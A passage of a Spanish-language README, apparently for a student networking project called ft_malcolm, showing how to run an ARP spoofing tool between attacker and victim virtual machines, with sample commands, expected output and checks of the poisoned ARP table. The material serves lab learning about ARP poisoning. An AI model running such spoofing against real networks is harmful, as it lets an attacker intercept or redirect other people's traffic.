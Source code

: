 ## Ejecución de las pruebas

### Sintaxis del comando:
```bash
sudo ./ft_malcolm <source_ip> <source_mac> <target_ip> <target_mac>
```

### Ejemplo con múltiples VMs:

#### En VM1 (Atacante):
```bash
# Spoofear que 192.168.1.30 tiene MAC falsa aa:bb:cc:dd:ee:ff
# Dirigido a la víctima 192.168.1.20
sudo ./ft_malcolm 192.168.1.30 aa:bb:cc:dd:ee:ff 192.168.1.20 08:00:27:ab:cd:ef
```

#### En VM2 (Víctima):
```bash
# Limpiar tabla ARP para forzar nueva resolución
sudo arp -d 192.168.1.30

# Generar ARP request haciendo ping
ping 192.168.1.30
```

### Ejemplo con una sola VM:
```bash
# Test básico usando tu propia IP
sudo ./ft_malcolm 192.168.1.10 aa:bb:cc:dd:ee:ff 192.168.1.10 08:00:27:12:34:56

# En otra terminal, generar ARP request
sudo arp -d 192.168.1.10
ping 192.168.1.10
```

## Verificación de resultados

### 1. Salida esperada de ft_malcolm:
```
Found available interface: eth0
Waiting for ARP request...
An ARP request has been broadcast.
    mac address of request: 08:00:27:ab:cd:ef
    IP address of request: 192.168.1.20
Now sending an ARP reply to the target address with spoofed source, please wait...
Sent an ARP reply packet, you may now check the arp table on the target.
Exiting program...
```

### 2. Verificar tabla ARP en la víctima:
```bash
# En VM2 (víctima)
arp -a | grep 192.168.1.30
# Debería mostrar: 192.168.1.30 (192.168.1.30) at aa:bb:cc:dd:ee:ff [ether] on eth0

# Formato alternativo
ip neigh show
```
